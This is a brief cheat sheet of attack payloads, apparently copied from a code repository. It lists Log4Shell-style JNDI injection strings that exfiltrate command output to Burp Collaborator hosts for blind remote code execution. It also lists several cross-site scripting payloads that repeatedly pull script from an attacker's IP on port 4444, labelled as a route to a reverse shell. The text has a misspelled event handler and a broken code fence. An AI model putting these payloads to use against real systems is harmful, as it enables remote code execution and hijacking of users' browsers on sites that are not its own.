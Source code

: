 ## Blind RCE:
``
${jndi:ldap://${command}XXXX${::-.}burpcollab.net}zzzz

${jndi:ldap://${command}XXXX${::-.}99gabkspyjhuqr69989p8ivwun0eo3.burpcollaborator.net}zzzz
```
## XSS to Reverse shell:
```
<svg/onlaod=setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}},1010)>

<script>setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}},1010)</script>

<img src=link onerror=setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}},1010)>

<body onload=setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}}></body>

<img src=x onerror=document.write(navigator.appVersion)>
```
